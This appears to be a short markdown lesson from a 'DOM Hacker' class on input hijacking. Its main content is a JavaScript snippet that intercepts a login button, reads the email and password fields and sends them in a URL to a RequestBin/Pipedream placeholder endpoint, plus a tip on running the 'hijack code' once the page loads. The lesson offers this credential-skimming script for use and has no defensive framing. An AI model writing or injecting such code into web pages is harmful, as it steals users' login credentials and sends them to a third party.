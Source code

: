 # DOM Hacker Class 02 - Input Hijacking & Live Data Capture

## Lessoons learnt
> How to grab user input in real-time using DOM
> How to listen for `onclick` or `onsubmit` events
> Sending data to your own server (RequestBin)
------

## ✅ Real-Time Input Capture Script
```js
document.getElementById("loginBtn").onclick = function(event) {
  event.preventDefault();

  let email = document.getElementById("email").value;
  let pass = document.getElementById("password").value;

  fetch("https://YOUR-REQUESTBIN.x.pipedream.net?email=" + email + "&pass=" + pass);
};
```
## Tip
If the button or form doesn't exist yet when your script runs, use:
```js
window.onload = function() {
  // Your hijack code here
}
```

